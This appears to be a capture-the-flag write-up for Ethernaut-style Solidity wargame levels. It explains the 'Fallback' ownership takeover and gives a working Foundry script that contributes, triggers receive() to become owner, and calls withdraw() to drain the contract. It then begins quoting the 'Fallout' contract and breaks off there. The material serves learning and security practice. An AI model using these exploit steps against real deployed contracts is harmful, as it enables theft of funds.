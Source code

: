 - Goal : 

1. Our goal is to become the owner of the contract and drain all the ether of it

- Solution : 

1. Fallback contract sets the owner variable in `receive()` function.
2. To set the owner we need to pass the require check in `receive()`
3. To pass the check we have to send some ether with the `TX` and our sender should have some contributions in it.
4. So, Initially we will send contributions and then send some ether to the contract to invoke the `receive()` method.
5. After we sent the new owner as ourselves, we can call `withdraw()` function to drain the contract.

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "forge-std/console.sol";
import "forge-std/Script.sol";
import {Fallback} from "src/Fallback.sol";

contract Level0Solve is Script{
    Fallback public level1 = Fallback(payable(0x67B71283A3a53C445f33Ea0a0F8E435cD1f283E1));
    function run() external{
        vm.startBroadcast(vm.envUint("PRIVATE_KEY"));
        console.log("Original Owner : ", level1.owner());        
        
        level1.contribute{value: 0.0001 ether}();
        address(level1).call{value: 1 wei}("");

        console.log("New Owner : ", level1.owner());
        console.log("Initial Balance : ", address(level1).balance);
        level1.withdraw();
        console.log("Final Balance : ", address(level1).balance);
        vm.stopBroadcast();
    }
}
```

To run script : 

```bash
$ source .env
$ forge script script/FallbackSolve.s.sol:FallbackSolve --rpc-url $RPC_URL --broadcast
```

# 2 Fallout

`Fallout.sol`

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin-contracts-06/contracts/math/SafeMath.sol';

contract Fallout {
  
  using SafeMath for uint256;
  mapping (address => uint) allocations;
  address payable public owner;


  /* constructor */
  function Fal1out() public payable {
```